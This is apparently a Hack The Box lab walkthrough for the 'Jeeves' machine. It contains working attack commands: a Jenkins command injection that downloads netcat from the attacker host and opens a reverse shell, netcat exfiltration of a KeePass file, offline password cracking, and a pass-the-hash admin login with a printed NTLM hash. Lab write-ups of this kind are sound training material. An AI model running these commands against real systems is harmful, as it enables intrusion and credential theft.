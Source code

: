 ```yaml
---
title: "Jeeves"
date: 2025-01-05
categories: HTB
tags: ["htb walkthrough", "ctf", "cybersecurity", "hackthebox", "htb writeup", "jeeves", "penetration testing", "writeup", "htb"]
---
```


# Jeeves

# Credentials
| Username | Password   | Source   |
| -------- | ---------- | -------- |
|          | moonshine1 | CEH.kdbx |
|          |            |          |
# Enumeration
- Microsoft SQL server 2005 
- Jetty 9.4.z-SNAPSHOT
- jenkins 2.87
# Initial Access
- Jenkins create and modifying project 
- modify command on command injection
# Privilege Escalation
- Cracking the `.kdbx` file gives password
- Opening the database gives NTLM hash 
- Pass the hash to gain shell as admin.

# Nmap
## TCP
```sh
PORT      STATE SERVICE      REASON  VERSION
80/tcp    open  http         syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
445/tcp   open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         syn-ack Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## UDP
![[Pasted image 20240722145026.png]]

# Foothold
https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security/jenkins-rce-creating-modifying-project

![[Pasted image 20240724122027.png]]
-> didn't work 

![[Pasted image 20240724121937.png]]

![[Pasted image 20240724132338.png]]
- Windows batch command

```sh
# download nc and connect to kali
powershell wget "10.10.14.42/nc.exe" -e Outfile "nc.exe"
nc.exe -e cmd.exe 10.10.14.42 9001
```

![[Pasted image 20240724132746.png]]

![[Pasted image 20240724133024.png]]

![[Pasted image 20240724141128.png]]

```powershell
# target
nc.exe 10.10.14.42 5555 < CEH.kdbx
# kali
rlwrap nc -lvnp 5555 > CEH.kdbx
```

![[Pasted image 20240724143230.png]]

![[Pasted image 20240724143700.png]]

```text
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```

# 80-HTTP
![[Pasted image 20240722143917.png]]

![[Pasted image /assets/images/jeeves1.png]]

https://www.exploit-db.com/exploits/50438
![[Pasted image 20240722144729.png]]

```sh
curl 'http://10.10.10.63:80/%2e/WEB-INF/web.xml'
```

```sh
gobuster vhost -u http://10.10.10.63 -t 50 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

![[Pasted image 20240722154240.png]]

![[Pasted image 20240722154317.png]]

# 50000-HTTP
![[Pasted image 20240724103717.png]]
## CEH.kdbx
```sh
#Install keepass tools like keepass2john
sudo apt-get install -y kpcli 
#The keepass is only using password
keepass2john CEH.kdbx > hash
# The keepass is also using a file as a needed credential
keepass2john -k <file-password> file.kdbx > hash
#The keepass can use a password and/or a file as credentials, if it is using both you need to provide them to keepass2john
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

![[Pasted image 20240724104535.png]]

```text
moonshine1
```

![[Pasted image 20240724104922.png]]

Create unrestricted global credential
![[Pasted image 20240724105451.png]]
`admin : password`

# Privilege Escalation
## Pass the Hash (PtH)
```sh
# pass the hash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 Administrator@10.10.10.63
```

![[Pasted image 20240724144832.png]]

![[Pasted image 20240724145002.png]]

![[Pasted image 20240724145610.png]]

The `dir /r` command in Windows displays the contents of a directory, including the alternate data streams (ADS) for files if they exist. Alternate data streams are a feature of the NTFS file system that allows data to be associated with a file without affecting the file's primary data stream.

```sh
# show contents of directory including ADS 
dir /r
more < hm.txt:root.txt
```
